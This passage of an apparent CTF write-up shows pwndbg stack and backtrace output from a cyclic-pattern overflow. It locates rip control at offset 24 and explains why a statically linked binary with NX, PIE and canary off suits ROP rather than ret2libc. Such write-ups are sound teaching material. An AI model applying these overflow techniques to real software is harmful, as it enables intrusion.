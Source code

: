 ```gdb






────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde18 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
01:0008│     0x7fffffffde20 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
02:0010│     0x7fffffffde28 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
03:0018│     0x7fffffffde30 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
04:0020│     0x7fffffffde38 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
05:0028│     0x7fffffffde40 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
06:0030│     0x7fffffffde48 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
07:0038│     0x7fffffffde50 ◂— 'kaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
──────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0         0x401889 reader+30
   f 1 0x6161616161616164
   f 2 0x6161616161616165
   f 3 0x6161616161616166
   f 4 0x6161616161616167
   f 5 0x6161616161616168
   f 6 0x6161616161616169
   f 7 0x616161616161616a
   ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -o daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```

Instead, we overwrote the return address at `24` bytes. So, we have control of `rip`, `PIE` is off, so we can easily perform a `ret2libc` attack, right? Wrong!

The reason is that the binary is statically linked, meaning there is no record of `system` or other function in `GOT` because everything is already in the binary.

### Debugging 

As we noticed before, `NX` is disabled, meaning we can execute code. We will take advantage of this and the lack of `PIE` and `Canary` to ROP our way around.
